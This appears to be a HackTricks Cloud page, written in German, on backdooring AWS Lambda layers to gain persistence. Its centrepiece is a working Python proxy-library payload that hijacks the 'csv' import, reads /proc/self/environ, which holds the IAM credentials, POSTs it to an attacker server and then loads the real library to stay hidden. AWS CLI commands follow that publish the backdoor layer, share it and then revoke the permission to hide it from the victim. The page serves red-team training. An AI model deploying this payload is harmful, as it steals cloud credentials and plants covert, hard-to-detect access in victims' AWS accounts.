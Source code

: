 # AWS - Lambda Layers Persistenz

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks in PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## Lambda Layers

Eine Lambda-Schicht ist ein .zip-Dateiarchiv, das **zusätzlichen Code** oder anderen Inhalt enthalten kann. Eine Schicht kann Bibliotheken, eine [benutzerdefinierte Laufzeit](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), Daten oder Konfigurationsdateien enthalten.

Es ist möglich, bis zu **fünf Schichten pro Funktion** einzuschließen. Wenn Sie eine Schicht in eine Funktion einschließen, werden die **Inhalte im Verzeichnis `/opt`** in der Ausführungsumgebung extrahiert.

Standardmäßig sind die **Schichten**, die Sie erstellen, **privat** für Ihr AWS-Konto. Sie können wählen, eine Schicht mit anderen Konten zu **teilen** oder die Schicht **öffentlich** zu **machen**. Wenn Ihre Funktionen eine Schicht verbrauchen, die von einem anderen Konto veröffentlicht wurde, können Ihre Funktionen die Schichtversion **weiterhin verwenden, nachdem sie gelöscht wurde oder nachdem Ihre Berechtigung zum Zugriff auf die Schicht widerrufen wurde**. Sie können jedoch keine neue Funktion erstellen oder Funktionen mit einer gelöschten Schichtversion aktualisieren.

Funktionen, die als Container-Image bereitgestellt werden, verwenden keine Schichten. Stattdessen packen Sie Ihre bevorzugte Laufzeit, Bibliotheken und andere Abhängigkeiten in das Container-Image, wenn Sie das Image erstellen.

### Python-Ladepfad

Der Ladepfad, den Python in Lambda verwenden wird, ist der folgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Überprüfen Sie, wie die **zweite** und dritte **Position** von Verzeichnissen belegt sind, in denen **Lambda-Layer** ihre Dateien entpacken: **`/opt/python/lib/python3.9/site-packages`** und **`/opt/python`**

{% hint style="danger" %}
Wenn es einem Angreifer gelingt, einen verwendeten Lambda-**Layer zu infiltrieren** oder einen hinzuzufügen, der **bösartigen Code ausführt, wenn eine gemeinsame Bibliothek geladen wird**, kann er bei jedem Lambda-Aufruf bösartigen Code ausführen.
{% endhint %}

Daher sind die Voraussetzungen:

* **Überprüfen Sie die Bibliotheken**, die vom Opfercode **geladen** werden
* Erstellen Sie eine **Proxy-Bibliothek mit Lambda-Layern**, die **benutzerdefinierten Code ausführen** und die **ursprüngliche** Bibliothek **laden** wird.

### Vorab geladene Bibliotheken

{% hint style="warning" %}
Beim Missbrauch dieser Technik stieß ich auf ein Problem: Einige Bibliotheken sind bereits im Python-Laufzeitumgebung geladen, wenn Ihr Code ausgeführt wird. Ich erwartete, Dinge wie `os` oder `sys` zu finden, aber **sogar die `json`-Bibliothek war geladen**.\
Um diese Persistenztechnik zu missbrauchen, muss der Code eine neue Bibliothek laden, die nicht geladen ist, wenn der Code ausgeführt wird.
{% endhint %}

Mit einem Python-Code wie diesem ist es möglich, die **Liste der Bibliotheken abzurufen, die in der Python-Laufzeitumgebung in Lambda vorab geladen sind**:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Und dies ist die **Liste** (überprüfen Sie, ob Bibliotheken wie `os` oder `json` bereits vorhanden sind)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Und dies ist die Liste der **Bibliotheken**, die **Lambda standardmäßig installiert hat**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In diesem Beispiel nehmen wir an, dass der Zielcode **`csv`** importiert. Wir werden den **Import der `csv`-Bibliothek** manipulieren.

Dafür werden wir das Verzeichnis csv mit der Datei **`__init__.py`** darin in einem Pfad erstellen, der von Lambda geladen wird: **`/opt/python/lib/python3.9/site-packages`**\
Dann, wenn Lambda ausgeführt wird und versucht, **csv** zu laden, wird unsere **`__init__.py`-Datei geladen und ausgeführt**.\
Diese Datei muss:

- Unser Payload ausführen
- Die ursprüngliche csv-Bibliothek laden

Beides können wir mit:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Dann erstellen Sie ein Zip mit diesem Code im Pfad **`python/lib/python3.9/site-packages/__init__.py`** und fügen Sie es als Lambda-Layer hinzu.

Sie können diesen Code unter [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) finden.

Das integrierte Payload wird **die IAM-Anmeldeinformationen beim ersten Aufruf oder nach einem Zurücksetzen des Lambda-Containers** (Änderung des Codes oder kaltes Lambda) an einen Server senden, aber **andere Techniken** wie die folgende könnten ebenfalls integriert werden:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Externe Layer

Beachten Sie, dass es möglich ist, **Lambda-Layer von externen Konten zu verwenden**. Darüber hinaus kann eine Lambda-Schicht aus einem externen Konto verwendet werden, selbst wenn keine Berechtigungen vorliegen.\
Beachten Sie auch, dass die **maximale Anzahl von Layern, die eine Lambda haben kann, 5 beträgt**.

Daher könnte ein Angreifer zur Verbesserung der Vielseitigkeit dieser Technik:

* Eine vorhandene Schicht des Benutzers infiltrieren (nichts ist extern)
* **Eine Schicht** in **seinem Konto erstellen**, dem **Opferkonto Zugriff** auf die Verwendung der Schicht geben, die **Schicht** in den Lambda des Opfers **konfigurieren** und die Berechtigung **entfernen**.
* Der **Lambda** wird weiterhin in der Lage sein, die **Schicht zu verwenden**, und das **Opfer** wird keine einfache Möglichkeit haben, den **Code der Schicht herunterzuladen** (außer durch Erhalt einer Reverse-Shell innerhalb des Lambdas)
* Das Opfer wird keine externen Schichten sehen, die mit **`aws lambda list-layers`** verwendet werden

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>

